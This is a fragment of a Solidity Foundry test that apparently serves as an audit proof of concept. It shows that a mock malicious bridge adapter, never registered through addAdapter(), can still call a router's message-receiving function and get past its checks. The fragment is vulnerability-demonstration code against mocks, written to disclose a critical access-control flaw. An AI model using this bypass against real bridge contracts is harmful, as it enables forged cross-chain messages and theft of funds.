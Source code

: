 ```solidity
        for(uint i; i < 5; i++){ //change i =1 to break test hence 0 not instantiated
            
            IBridgeAdapter adapter = IBridgeAdapter(address(new MockBridgeAdapter()));
            counter.addAdapter(uint16(i),adapter);
            console.log('addapterInstances',address(adapter));
        }
        assertTrue(counter.isAdapterInitialized(0));
        IBridgeAdapter addapterInstance = counter.getAdapter(0);

        vm.stopPrank();

        //======illustrating any contract can call RouterHub::receiveMessage()

        //instantiating arbitrary malicious contract
        MockMaliciousBridgeAdapter maliciouscontract = new MockMaliciousBridgeAdapter(address(counter));
        //wraps contract with interface
        IBridgeAdapter wrappedMaliciouscontract = IBridgeAdapter(address(maliciouscontract));
        
        //assert not included by `MANAGER_ROLE` via `addAdapter()`
        assertEq(0, counter.adapterToId(wrappedMaliciouscontract));
        Messages.MessageReceived memory arbitraryNum; // not set just illustrating
        
        vm.expectEmit();

        //Emmiting this shows contract was successfully called by malicious contract (not added via `addAdapter()`)
        // @audit Critical
        emit Counter.successfullyBypassedAllrevertChecksAbove();
        maliciouscontract.cat(arbitraryNum);
        console.log('wrappedMaliciouscontract',address(wrappedMaliciouscontract));
        
        
        
    }

    /**
    =========Signatures
    function isAdapterInitialized(uint16 adapterId) public view returns (bool) 
    function getAdapter(uint16 adapterId) public view returns (IBridgeAdapter)
    function addAdapter(uint16 adapterId, IBridgeAdapter adapter) external
     */
}

```
